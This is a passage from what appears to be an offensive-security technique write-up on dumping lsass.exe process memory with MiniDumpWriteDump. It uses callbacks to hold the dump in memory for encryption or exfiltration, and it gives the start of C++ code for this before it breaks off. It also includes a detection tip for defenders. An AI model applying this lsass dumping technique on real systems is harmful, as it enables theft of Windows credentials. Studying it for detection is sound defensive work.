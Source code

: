 Of ourse, there is procdump that does the same thing and it does not get flagged by Windows defender, but it is always good to know there are alternatives you could turn to if you need to for whatever reason. 

### Observations

As mentioned earlier, the code above uses a native windows API call `MiniDumpWriteDump` to make a memory dump of a given process. If you are on the blue team and trying to write detections for these activities, you may consider looking for processes loading in `dbghelp.dll` module and calling `MiniDumpWriteDump` function:

![](../../.gitbook/assets/screenshot-from-2019-03-23-17-08-29.png)

## MiniDumpWriteDump to Memory using MiniDump Callbacks

By default, `MiniDumpWriteDump` will dump lsass.exe process memory to disk, however it's possible to use `MINIDUMP_CALLBACK_INFORMATION` callbacks to create a process minidump in memory, where we could encrypt it before dropping to disk or exfiltrate it over the network.

### Code

The below code shows how we can create a minidump for a process and store its buffer in memory, where we can process the buffer as required.

```cpp
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
#include <processsnapshot.h>
#pragma comment (lib, "Dbghelp.lib")

using namespace std;

// Buffer for saving the minidump
LPVOID dumpBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 1024 * 1024 * 75);
DWORD bytesRead = 0;

BOOL CALLBACK minidumpCallback(
	__in     PVOID callbackParam,
	__in     const PMINIDUMP_CALLBACK_INPUT callbackInput,
	__inout  PMINIDUMP_CALLBACK_OUTPUT callbackOutput
)
```